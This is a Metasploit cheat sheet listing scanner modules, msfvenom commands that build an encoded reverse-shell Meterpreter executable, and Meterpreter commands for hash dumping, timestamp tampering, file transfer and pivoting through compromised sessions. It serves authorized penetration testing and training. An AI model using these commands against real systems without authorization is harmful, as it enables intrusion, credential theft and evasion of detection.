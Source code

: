 # Metasploit Cheat Sheet


## Useful Auxiliary Modules

### Port Scanner
```
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
```

### DNS Enumeration
```
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

### FTP Server
```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

### Proxy Server
```
msf > use auxiliary/server/socks4
msf > run
```

- Any proxied traffic that matches the subnet of a route will be routed through the session specified by route.
- Use proxychains configured for socks4 to route any applications traffic through a Meterpreter session.

## msfvenom

### Generate Payloads
```
$ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]
```

**Example:**
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1 LPORT=4444 –f exe > met.exe
```

### Format Options (specified with –f)
```
--help-formats – Print out a summary of the specified options
exe – Executable
pl – Perl
rb – Ruby
raw – Raw shellcode
c – C code
```

### Encoding Payloads
```
$ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]
```

**Example:**
```
$ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe
```

## Metasploit Meterpreter

### Base Commands
```
? / help: Display a summary of commands
exit / quit: Exit the Meterpreter session
sysinfo: Show the system name and OS type
shutdown / reboot: Self-explanatory
```

### File System Commands
```
cd: Change directory
lcd: Change directory on local (attacker's) machine
pwd / getwd: Display current working directory
ls: Show the contents of the directory
cat: Display the contents of a file on screen
download / upload: Move files to/from the target machine
mkdir / rmdir: Make / remove directory
edit: Open a file in the default editor (typically vi)
```

### Process Commands
```
getpid: Display the process ID that Meterpreter is running inside
getuid: Display the user ID that Meterpreter is running with
ps: Display process list
kill: Terminate a process given its process ID
execute: Run a given program with the privileges of the process the Meterpreter is loaded in
migrate: Jump to a given destination process ID
  - Target process must have same or lesser privileges
  - Target process may be a more stable process
  - When inside a process, can access any files that process has a lock on
```

### Network Commands
```
ipconfig: Show network interface information
portfwd: Forward packets through TCP session
route: Manage/view the system's routing table
```

### Misc Commands
```
idletime: Display the duration that the GUI of the target machine has been idle
uictl [enable/disable] [keyboard/mouse]: Enable/disable either the mouse or keyboard of the target machine
screenshot: Save as an image a screenshot of the target machine
```

### Additional Modules
```
use [module]: Load the specified module

Example:
use priv: Load the priv module
hashdump: Dump the hashes from the box
timestomp: Alter NTFS file timestamps
```

## Managing Sessions

### Multiple Exploitation
```
msf > exploit -z
msf > exploit –j
```

### Job Management
```
msf > jobs –l
msf > jobs –k [JobID]
```

### Session Management
```
msf > sessions -l
msf > session -i [SessionID]
meterpreter > <Ctrl+Z>
or
meterpreter > background
```

### Routing Through Sessions
```
msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]
```

## Metasploit Console Basics (msfconsole)

### Module and Payload Management
```
msf > search [regex]
msf > use exploit/[ExploitPath]
msf > set PAYLOAD [PayloadPath]
msf > show options
msf > set [Option] [Value]
msf > exploit
```

### Post Modules from Meterpreter
```
meterpreter > run post/multi/gather/env
```

### Post Modules on a Backgrounded Session
```
msf > use post/windows/gather/hashdump
msf > show options
msf > set SESSION 1
msf > run
```
